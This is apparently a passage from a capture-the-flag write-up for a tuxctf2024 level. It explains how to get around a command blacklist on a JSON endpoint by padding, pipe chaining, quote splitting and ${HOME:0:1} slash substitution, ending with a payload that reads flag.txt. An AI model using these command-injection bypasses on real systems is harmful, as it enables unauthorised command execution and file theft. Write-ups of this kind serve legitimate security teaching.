 if we try to do the command ```ls -la``` in a local linux machine this the output:

![image](/assets/img/tuxctf2024/level4/level4-5.png)

we notice that . and .. are executable, .. is blacklisted but . is not!

if send ```{"command" : "."}``` we will get command to short, but if we send it with spaces ```{"command" : ".     "}```

![image](/assets/img/tuxctf2024/level4/level4-6.png)

it works !!!

the output is empty becuase the command . doesnt give anything back, but we know in linux we can do multiple commands in one line using pipe ```|``` or a semicolon, let's try that.

```{"command" : ". | pwd"}```

![image](/assets/img/tuxctf2024/level4/level4-7.png)

it works!!!

if we try ```{"command" : ". | ls .."}``` or ```{"command" : ". | ls /"}``` it will respond with:

![image](/assets/img/tuxctf2024/level4/level4-8.png)

to bypass this we can do alot of things, i choose to do ```{"command" : ". | ls .''."}```

![image](/assets/img/tuxctf2024/level4/level4-9.png)

we can see that flag.txt is in the before directory, to bypass the slash restriction we can use ```${HOME:0:1}```

```{"command" : ". | cat .''.${HOME:0:1}flag.txt"}```

to understand the payload, if we run echo ```.''. ``` in any linux terminal the output will be ```..```.
```